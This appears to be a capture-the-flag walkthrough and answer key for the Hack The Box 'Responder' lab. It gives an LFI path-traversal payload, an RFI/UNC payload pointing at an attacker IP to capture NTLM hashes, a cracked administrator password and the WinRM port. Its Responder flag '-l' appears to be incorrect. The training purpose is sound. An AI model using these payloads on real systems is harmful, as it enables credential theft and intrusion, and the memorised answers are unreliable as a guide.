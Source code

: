 <center>Responder</center>



[toc]







## Responder

> Responder





### 1. task

1. When visiting the web service using the IP address, what is the domain that we are being redirected to?

```shell
unika.htb
```

2. Which scripting language is being used on the server to generate webpages?

![image-20241127160422068](./assets/image-20241127160422068-1732694665608-1.png)

```shell
php

# 跳转，修改本机hosts文件
sudo vim /etc/hosts

服务器ip 
```

3. What is the name of the URL parameter which is used to load different language versions of the webpage?

```shell
http://unika.htb/index.php?page=french.html
page
```

4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```shell
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts

../../../../../../../../windows/system32/drivers/etc/hosts
```

5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```shell
//10.10.14.6/somefile
```

6. What does NTLM stand for?

```shell
New Technology LAN Manager
```

7. Which flag do we use in the Responder utility to specify the network interface?

```shell
-l
```

8. There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

```shell
john the ripper
```

9. What is the password for the administrator user?

```shell
badminton
```

10. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

```shell
5985
```





